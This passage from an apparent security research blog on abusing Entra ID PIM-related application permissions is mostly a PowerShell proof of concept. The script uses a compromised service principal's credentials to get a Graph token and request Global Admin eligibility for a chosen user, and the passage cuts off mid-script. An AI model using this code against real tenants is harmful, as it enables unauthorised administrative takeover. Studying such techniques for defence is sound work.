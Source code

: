 [![](/assets/images/blog/2024-07-31-abusing-pim-related-application-permissions-part-2/03_screenshot.png)](/assets/images/blog/2024-07-31-abusing-pim-related-application-permissions-part-2/03_screenshot.png)

The PowerShell code to leverage the compromised “Harmless app” and make our “Harmless user account” eligible to the Global Admin role is as follows:

```
## Set SP info
$tid = ''
$appid = ''
$password = ''

# Set user info
$userId = ''

# Acquire MS Graph access token
$securePassword = ConvertTo-SecureString -String $password -AsPlainText -Force
$credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $appId, $securePassword
Connect-AzAccount -ServicePrincipal -TenantId $tid -Credential $credential
$token = (Get-AzAccessToken -ResourceTypeName MSGraph).Token

# Request PIM role eligibility
$roleDefinitionId = '62e90394-69f5-4237-9190-012177145e10' # current: Global Admin (replace with any role Id)
$yesterday = (get-date).AddDays(-1).ToString("yyyy-MM-ddTHH:mm:ss.000Z")

$uri = 'https://graph.microsoft.com/beta/roleManagement/directory/roleEligibilityScheduleRequests'
$headers = @{
    'Authorization'= "Bearer $token"
    'Content-Type' = 'application/json'
}

$eligibleAssignment = @{
    action = 'adminAssign'
    justification = 'PoC'
    roleDefinitionId = $roleDefinitionId
```